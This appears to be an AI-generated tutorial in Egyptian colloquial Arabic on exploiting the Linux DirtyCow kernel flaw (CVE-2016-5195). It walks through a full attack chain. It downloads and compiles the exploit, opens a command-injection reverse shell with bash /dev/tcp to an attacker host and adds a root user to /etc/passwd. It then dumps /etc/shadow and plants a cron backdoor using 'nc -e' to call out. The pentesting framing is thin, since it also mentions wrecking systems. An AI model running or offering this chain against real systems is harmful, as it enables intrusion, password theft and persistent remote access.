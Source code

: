 تمام، هشرح لك "Linux Kernel Exploits DirtyCow (CVE-2016-5195)" بعمق شديد، مع تركيز على الجانب العملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. إيه هو DirtyCow (CVE-2016-5195)؟**

#### **الشرح العميق:**
DirtyCow هو ثغرة في نواة لينكس (Linux Kernel) اكتشفت سنة 2016 ورقمها CVE-2016-5195. الثغرة دي بتستغل مشكلة في طريقة إدارة الذاكرة (Memory Management) في النظام، وبالأخص في ميزة تسمى "Copy-on-Write" (COW). الفكرة إنك لو كنت مستخدم عادي (Low Privilege User)، تقدر تستغل الثغرة دي عشان تكتب في ملفات المفروض تكون للقراءة بس (Read-Only) أو محمية، زي ملفات النظام المهمة (`/etc/passwd` مثلًا). الهدف الأساسي هو تصعيد الصلاحيات (Privilege Escalation) لتصير `root`.

- **إزاي بتشتغل؟** الثغرة بتستغل حالة سباق (Race Condition) بين الكتابة في الذاكرة وتعديل الملفات، فتقدر تغير محتوى ملفات النظام.
- **الإصدارات المتأثرة:** Kernel من 2.6.22 لحد 4.8.3 (يعني أنظمة قديمة قبل التحديثات بتاعة 2016).

#### **الأدوات والأوامر العملية:**
1. **فحص إصدار الكernel:**
   - `uname -r` -> لو رجع مثلًا `3.2.0-23-generic`، يبقى متأثر.
2. **تحميل Exploit:**
   - `wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirty.c`.
3. **تجميع الكود:**
   - `gcc -pthread dirty.c -o dirtycow`.

#### **خلاصة بالعامية المصرية:**
"يعني زي ما تكون لقيت خرم في حيطة السجن، تدخل منه وتطلع الكبير بتاع الحبس! DirtyCow يعني بتستغل عيب في النظام عشان تكتب في حاجات المفروض ماتقربلهاش وتبقى root."

---

### **2. ليه المشكلة دي خطيرة؟**

#### **الشرح العميق:**
الثغرة دي خطيرة جدًا لأنها بتدي مستخدم عادي (زي `www-data` مثلًا) القدرة يتحكم في النظام كله عن طريق تعديل ملفات مهمة. يعني:
- **تصعيد صلاحيات:** تقدر تضيف نفسك كـ root أو تغير كلمات سر.
- **تدمير النظام:** لو عايز تخرب، تغير ملفات النظام الأساسية.
- **وصول دائم:** تضيف Backdoor عشان ترجع تاني.

في الـ Pentesting، لو لقيت سيرفر قديم متأثر بـ DirtyCow، ده يعني إنك ممكن تاخد root في دقايق من غير تعقيد.

#### **الأدوات والأوامر العملية:**
1. **تشغيل الـ Exploit:**
   - `./dirtycow` -> بيعدل ملف زي `/etc/passwd` ويضيف مستخدم جديد بصلاحيات root.
2. **التحقق:**
   - `id` -> يبقى نجحت.`uid=0(root)` لو رجع 
   - ، 
1. **مثال يدوي:**
   - لو عندك Shell كـ `www-data`:
     - `echo "hacker:x:0:0:root:/root:/bin/bash" >> /etc/passwd` (عادةً ما ينفعش، بس DirtyCow بيخلّيه ينفع).

#### **خلاصة بالعامية المصرية:**
"الثغرة دي خطيرة لأنها زي ما تكون لقيت مفتاح السجن في الزبالة، فتحت الباب وطلعت الباشا بتاع الكل! لو لقيتها، يبقى النظام في إيدك في ثواني."

---

### **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم DirtyCow عشان تصعد من مستخدم عادي لـ root عن طريق تعديل ملفات النظام.
- **مثال واقعي:** لو وصلت لـ Shell كـ `www-data` على سيرفر قديم، تشغل الـ Exploit وتبقى root.

#### **خلاصة بالعامية المصرية:**
"لما تلاقي DirtyCow، زي ما تكون لقيت عصاية سحرية في لعبة، تضرب بيها وتبقى الكبير بتاع الماتش في ثانية!"

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29 -> لو وصلت لـ Shell، ابدأ.

#### **الخطوة 2: الوصول لـ Shell**
- لو لقيت ثغرة ويب (زي Command Injection):
  - `http://192.168.1.10/ping?ip=127.0.0.1; /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell -> `id` -> `www-data`.

#### **الخطوة 3: التحقق من الكernel**
- في الـ Shell:
  - `uname -r` -> لو رجع `3.16.0-38-generic` (مثلاً)، يبقى متأثر بـ DirtyCow.

#### **الخطوة 4: تحميل وتشغيل DirtyCow**
- انقل الـ Exploit للسيرفر:
  - في جهازك: `python3 -m http.server 80`.
  - في الـ Shell: `wget http://192.168.1.100/dirty.c -O /tmp/dirty.c`.
- جمّع الكود:
  - `gcc -pthread /tmp/dirty.c -o /tmp/dirtycow`.
- شغله:
  - `./tmp/dirtycow` -> غالبًا بيضيف مستخدم جديد زي `firefart` بصلاحيات root.

#### **الخطوة 5: التحقق من التصعيد**
- `cat /etc/passwd` -> لو لقيت سطر زي `firefart:x:0:0::/:/bin/sh`.
- `su firefart` -> لو طلب كلمة سر (عادةً `firefart`)، ادخلها.
- `id` -> `uid=0(root)` -> نجحت.

#### **الخطوة 6: استغلال وتوثيق**
- كـ root:
  - `cat /etc/shadow` -> تسريب كلمات السر.
  - `echo "nc -e /bin/bash 192.168.1.100 9999" > /etc/cron.d/backdoor` -> Backdoor.
- سجل الإصدار المتأثر والخطوات في تقريرك.

#### **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت سلاح في لعبة، ضربت بيه الكل، وطلعت الكبير بتاع الحتة! DirtyCow لما تلاقيها، يبقى النظام في جيبك في دقايق."

---

### **الخلاصة النهائية:**
DirtyCow (CVE-2016-5195) هي ثغرة خطيرة في نواة لينكس بتخلّيك تصعد من مستخدم عادي لـ root عن طريق استغلال عيب في الذاكرة. في الـ Pentesting، دور عليها في الأنظمة القديمة بـ `uname -r`، استخدم الـ Exploit عشان تاخد Shell كـ root، ووري العميل إن سيرفره زي بيت مكسور لو ما حدثش! بالطريقة دي، تبقى البطل بتاع اللعبة بسهولة!